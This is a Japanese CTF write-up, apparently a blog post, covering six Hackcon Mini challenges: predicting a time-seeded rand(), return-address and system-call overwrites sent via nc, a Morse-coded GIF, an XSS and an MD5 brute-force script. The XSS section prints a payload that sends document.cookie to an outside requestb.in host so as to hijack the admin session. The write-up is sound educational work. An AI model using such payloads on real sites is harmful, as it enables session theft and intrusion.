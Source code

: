 ```yaml
---
layout: post
title: Hackcon Mini の write-up
categories: [ctf]
---
```


チーム Harekaze で [Hackcon Mini](http://hackcon.in/) に参加しました。

最終的にチームで 585 点を獲得し、順位は 8 位 (得点 110 チーム中) でした。うち、私は 6 問を解いて 590 点を入れました。

…計算が合いませんが、これは罠として仕込まれている特定のフラグを送信すると、マイナスの得点が入ってしまうという問題があったためです。

以下、解いた問題の write-up です。

## [PWN 30] Random

乱数を当てろという問題です。最初に `srand(time(NULL))` をしており、しかもこの `time(NULL)` の値を教えてくれるので、こちらで再現した値を投げれば終わりです。

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  srand(atoi(argv[1]));
  printf("%d\n", rand());
  return 0;
}
```

```
HACKCON{n00b_scrubs_get_me_a_real_pwn!}
```

## [PWN 100] Game of Integers - Part 1

SSP がありますが、canary を書き換えずに直接リターンアドレスを書き換えられます。`run_me` に飛ばしましょう。

```
$ nc 35.154.158.26 31338
Which index do you want to overwrite?
24
Enter value to overwrite:
134513979
Lets see!
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
Its impossible to run me. Is it?
```

```
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
```

## [PWN 200] Game of Integers - Part 2

`run_me` は潰されてしまっているようなので、直接 `system` を呼んでしまいましょう。

```
$ nc 35.154.158.26 31337
Which index do you want to start the overwrite?
24
How many integers?
3
Enter value to overwrite:
134513664
Enter value to overwrite:
1094795585
Enter value to overwrite:
134514497
Lets see!
HACKCON{ROP_WITH_INTS}
```

```
HACKCON{ROP_WITH_INTS}
```

## [Web 50] Webdev

DevTools を開きながらページを見ると、`movie.gif` というやけに大きな gif を取りに行っているのが確認できます。

この gif はアニメーションでチカチカ点滅していますが、白が表示される間隔が少しズレているように思えます。黒を 0、白を 1 として文字列にしてみましょう。

```python
from PIL import Image
im = Image.open('movie.gif')
w, h = im.size
res = ''
try:
  while True:
    i = im.convert('RGB')
    res += '0' if i.getpixel((0, 0)) == (0, 0, 0) else '1'
    im.seek(im.tell() + 1)
except:
  print(res)
```

結果を `result.txt` として保存して、さらに次のスクリプトを実行します。

```python
s = open('result.txt').read().strip()
s = s.replace('00000', ' ')
s = s.replace('0000', '-')
s = s.replace('000', '.')
s = s.replace('1', '')
print(s)
```

```
.... . .-.. .-.. ---   ..-. .-. .. . -. -..   .... . .-.. .-.. ---   ..-. .-. .. . -. -..   - .... .- - ...   .-.. .- -- .   -- .- -.-- -... .   ..   ... .... --- ..- .-.. -..   --. .. ...- .   -.-- --- ..-   .-   -. .- -- .   -... ..- -   - .... .- - ...   .-   ... .-.. .. .--. .--. . .-. -.--   ... .-.. --- .--. .   -.-- --- ..- .-. .   --- -. .-.. -.--   .. -.   -- -.--   .... . .- -..   .-- .   .... .- ...- .   - ---   .-. . -- . -- -... . .-.   - .... .- -   .- -. -..   --- -. .   - .... .. -. --.     -... - .--   - .... .   ..-. .-.. .- --.   .. ...   .... .- -.-. -.- -.-. --- -. -- --- .-. ... . ..-. .-.. .- --.
```

モールス信号が出てきました。これをデコードするとフラグが出てきました。Web とは…。

```
`HACKCONMORSEFLAG`
```

## [Web 60] Admin Login

とりあえずデモユーザーでログイン。試しに `<s>haifuri</s>` をポストすると、エスケープされずに表示されました。XSS があるようです。

`<script>(new Image).src='http://requestb.in/xxx?'+document.cookie;</script>` をポストしてみると、サーバの IP アドレスからセッション ID 付きでアクセスが来ました。

このセッション ID をセットして更新すると、フラグが表示されました。

```
seSSi0n_h!Jack1ng_!s_@wesOmEEEEE!
```

## [Web 150] BF

問題文を確認しましょう。得られた文字列が `tyuio` のときフラグは `87c1b071153ae8fd35acfd9ab3f3f6bb` で、`juteg` のときフラグは `d6d684e70bb4c5801b012151141add87` になるようです。

[CrackStation](https://crackstation.net/) に `87c1b071153ae8fd35acfd9ab3f3f6bb` を投げるとこれは `bgcqw` の md5 ハッシュだと分かりました。これは `tyuio` をシーザー暗号で右に 8 シフトさせた文字列です。

動いているサービスを確認しましょう。任意の Brain なんとかのコードを実行できますが、返ってくる出力は md5 にかけられてしまっています。そして、欲しい文字列は入力として入ってきます。

1 バイトずつ出力させれば、あらかじめテーブルを作っておくだけで元の文字が分かります。

```python
import hashlib
import requests

t = {}
for x in range(256):
  t[hashlib.md5(bytes([x])).hexdigest()] = chr(x)

i = 1
res = ''
while True:
  r = requests.get('http://35.154.158.26:10300/{}.'.format(',' * i))
  res += t[r.content.decode('ascii')]
  print(res)
  i += 1
```

結果は `bpqaqabpmwzqoqvitntioGMAAAAABPMnTiOQaippipilpplpl` でした。これを右に 8 シフトさせて md5 にかけたものがフラグです。

```
`9418ba5c569b70839474e121a7a72d58`
```

## 感想

この CTF は競技時間が 5 時間と非常に短いものでした。問題の量と難易度はその短さに見合ったものでしたが、それでもちょっとなあという感じです。
